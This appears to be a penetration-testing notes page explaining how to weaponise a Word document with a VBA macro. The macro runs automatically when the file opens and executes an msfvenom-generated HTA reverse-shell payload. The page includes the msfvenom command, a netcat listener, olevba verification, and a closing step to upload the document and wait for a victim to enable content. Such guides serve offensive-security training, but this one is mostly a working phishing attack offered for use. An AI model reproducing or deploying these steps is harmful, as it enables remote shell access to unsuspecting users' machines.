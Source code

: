 # Macro

### Preparation

* Install Office.&#x20;
* Create a Word document, called Evil.doc.
* Open a Macros from View menu. Select 'Evil' document in Macros in:

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

* Insert your macro name, 'MyMacro' in the Macro name: and then click 'Create'&#x20;

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

* This will take you to a VB editor.

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

*   Add the following script to your new macro.  \


    ```bash
    Sub AutoOpen() 
      MyMacro 
    End Sub 
    Sub Document_Open() 
      MyMacro 
    End Sub
    ```

<figure><img src="../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

* Create a reverse shell payload with hta extension via msfvenom

{% code overflow="wrap" %}
```bash
# Kali
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.128 LPORT=1234 -f hta-psh -o evil.hta
```
{% endcode %}

* Make them readable with a python script. Download [`hta2macro.py`](https://gist.githubusercontent.com/iptracej/d9628eff8c8665cd09edd8ab8aa0a51f/raw/b33b3852507a1065f97c59ab64c7279561ecab1d/hta2macro.py).&#x20;

```bash
# Kali
python hta2macro.py evil.hta
```

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

* Copy the split string to the Macro and add some commands in the Macro.&#x20;

```bash
# Office Macro Editor
Dim Str As String

<Your string here>

CreateObject("Wscript.Shell").Run Str

End Sub
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

* and save it as Word 97 format.
* When you check the macro again, you see the following scripts.

<figure><img src="../../.gitbook/assets/img1.png" alt=""><figcaption></figcaption></figure>

* Set up a netcat listener to validate your macro to work. &#x20;

```bash
# Kali
nc -nlvp 1234
```

* Open the word document.&#x20;

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

* Click Enable Content.&#x20;
* Kali machine, you will see the connection.

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

### Execution

* Check your macro&#x20;

```bash
# Kali
sudo pip install -U oletools
olevba evil.doc

# Check if your macro exists
```

<figure><img src="../../.gitbook/assets/img3.png" alt=""><figcaption></figcaption></figure>

* Set up a netcat listener again, upload the document to your target location, and wait until someone opens the document and enable content.&#x20;
